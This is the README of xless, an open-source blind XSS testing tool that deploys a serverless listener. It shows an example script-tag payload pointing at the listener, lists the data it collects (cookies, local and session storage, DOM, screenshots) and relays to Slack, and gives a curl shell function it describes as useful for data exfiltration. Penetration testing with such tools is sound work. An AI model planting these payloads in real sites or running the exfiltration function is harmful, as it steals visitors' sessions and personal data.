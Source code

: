 <h1 align="center">
  <br>
  <a href="https://github.com/mazen160/xless"><img src="https://user-images.githubusercontent.com/29874489/58731472-4f6c8080-83de-11e9-8206-992f4d777fdc.png" alt="Xless"></a>
  <br>
  xless
  <br>
</h1>

<h4 align="center">The Serverless Blind XSS App</h4>

<p align="center">
  <img src="https://img.shields.io/maintenance/yes/2021.svg?style=flat-square" alt="Maintained" />
  <img src="https://img.shields.io/bitbucket/issues-raw/mazen160/xless.svg?style=flat-square" alt="Issues" />
  <img src="https://img.shields.io/github/last-commit/mazen160/xless.svg?style=flat-square" alt="Last Commit" />
</p>

## :information_source: About The Project
**Xless** is a serverless Blind XSS (bXSS) application that can be used to identify Blind XSS vulnerabilities using your own deployed version of the application.
There is no need to run a full deployment process; just setup a [vercel.com](https://vercel.com/) account and run `bash deploy.sh`.
That's it. You now have a fully-running Blind XSS listener that uses Slack to notify you for callbacks.

## :warning: Requirements
* [vercel.com](https://vercel.com/) account: Vercel provides a **free plan** for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.
* IMGBB (free) Account and API key - for the screenshots.


## :rocket: Deployment
1. Run `bash deploy.sh`

```bash
$ bash deploy.sh

> Deploying ~/xless under X
> https://custom-xless-deployment.vercel.app [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## :speech_balloon: Example Payload

```html
<script src="https://custom-xless-deployment.vercel.app"></script>
```


## :eyes: Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


## :incoming_envelope: Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address
* Screenshot

## :satellite: Out-of-Band (OOB) Callbacks Listener

Xless also works as an OOB (Out-of-Band) callbacks listener for HTTP/HTTPS requests. Any HTTP GET request that is sent to non-parent path will be alerted.

## :eyes: Demo

```bash
$ curl https://custom-xless-deployment.vercel.app/callback-canary
```

![OOB CallBack Listener Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot-oob-callback-example.png)

Or anything random, such as:

```bash
$ curl https://custom-xless-deployment.vercel.app/88bf0ecd
```


## :man_health_worker: Health Check
Xless provides a `/health` endpoint to let you know that everything is configured correctly.
The current tests are the existance of the API keys and a successful image upload to IMGBB.

##  Example Blind XSS payloads

You can view a number of handy XSS payloads for your xless app at `$URL/examples`
* URL: `https://custom-xless-deployment.vercel.app/examples`
Once you deploy your app, you can find the examples there.

## :envelope_with_arrow: Scriptable Messages

You can use Xless to send direct messages to your listener. It can be useful in data exfiltration or as a scriptable way to send messages and alerts to your Slack app.

```shell
# on your (bashrc / zshrch) file:
function xless() {
  curl -s https://custom-xless-deployment.vercel.app/message --data "text=$1"
}
```


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. ~~Enabling sharing of page screenshot~~.
2. ~~Scriptable message~~.
3. _Your idea of a new feature_?


## Acknowledgement

* [Matthew Bryant](https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* [Rami Ahmed](https://twitter.com/rami_ahmad) for the "xless" name idea.
* [Damian Ebelties](https://twitter.com/DamianEbelties) for the logo.
* [Rotem Reiss](https://twitter.com/2rs3c) for the screenshot feature.
* [Vercel.com](https://vercel.com/) for operating a great serverless platform.
* [Ace Candelario](https://twitter.com/0xspade)

## Awesome Similar Projects

* [Azure-xless](https://github.com/dgoumans/Azure-xless): An Xless implementation for Microsoft Azure Function by [Daan Goumans](https://twitter.com/daangoumans).


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: mazin [at] mazinahmed [dot] net
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
